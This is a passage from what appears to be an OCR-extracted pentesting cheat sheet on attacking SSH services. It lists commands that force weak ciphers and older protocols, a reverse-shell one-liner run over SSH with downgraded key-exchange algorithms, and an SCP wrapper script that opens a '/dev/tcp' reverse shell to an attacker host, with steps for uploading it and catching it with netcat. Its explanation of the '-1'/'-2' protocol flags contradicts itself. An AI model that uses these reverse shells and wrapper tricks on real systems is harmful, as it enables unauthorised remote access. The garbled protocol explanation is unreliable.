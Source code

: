     ssh -c aes128-cbc user@target_ip
    

1. **Force an Older SSH Version:** forces SSH to use protocol version 2, which is more
                  secure than version 1. However, if a server still supports SSH version 1, you can try to exploit
                  vulnerabilities in the older protocol by forcing it with `-1`; this can sometimes reveal
                  older, less secure configurations or bugs in the SSH service.

    ssh -2 user@target_ip
    

1. **SSH Reverse Shell with Weak Cryptographic Algorithms:** used to exploit a vulnerable
                  SSH server by forcing it to use outdated and weak cryptographic algorithms
                  (`diffie-hellman-group1-sha1` and `ssh-rsa`); the SSH command initiates a
                  connection to the target server, then executes a reverse shell that connects back to the
                  attacker&#39;s machine.

    ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa <user>@<target_ip> -t &#39;bash -i >& /dev/tcp/<attacker_ip>/443 0>&1&#39;
    
    nc -nvlp [listening_port]
    

1. **Execute a Command Upon Connection:**`ssh user@target_ip "whoami"`

**RCE with SCP Wrapper****Steps:**

1. **Create an SCP Wrapper Script:** This script intercepts SCP commands. If the original
                  SCP command is detected, it executes normally. Otherwise, it triggers a reverse shell back to the
                  attacker&#39;s machine.
2. **Upload the Malicious Script:** Use SCP to transfer this script to the target machine,
                  placing it in a directory where it will be executed.
3. **Trigger the Script:** SSH into the target machine, and the wrapper script will
                  execute the reverse shell or specified commands, providing remote access.
4. **Catch the Shell:** Use a tool like Netcat (`nc`) to listen for the
                  incoming reverse shell connection on your attacker&#39;s machine.

- SCP Wrapper Script

    #!/bin/bash
    case $SSH_ORIGINAL_COMMAND in
     &#39;scp&#39;*)
        $SSH_ORIGINAL_COMMAND
        ;;
     *)
        echo "ACCESS DENIED."
        bash -i >& /dev/tcp/<attacker_ip>/443 0>&1
        ;;
    esac
    

- Upload SCP Wrapper and Start Listener

    scp -i <private_key_file> scp_wrapper.sh <user>@<target_ip>:/home/<user>/
    
    nc -nlvp [listening_port]
    

- Connect to the victim
